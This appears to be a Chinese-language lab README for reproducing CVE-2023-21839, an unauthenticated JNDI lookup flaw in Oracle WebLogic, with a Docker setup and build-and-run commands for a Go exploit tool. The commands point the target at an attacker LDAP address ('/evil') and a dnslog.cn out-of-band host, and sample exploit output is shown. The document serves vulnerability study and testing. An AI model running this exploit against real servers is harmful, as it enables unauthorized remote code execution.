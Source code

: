 # Weblogic未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞

参考:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 环境设置

执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-ip:7001/console`可以看到管理界面

## 复现

https://github.com/4ra1n/CVE-2023-21839


```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```

![](1.png)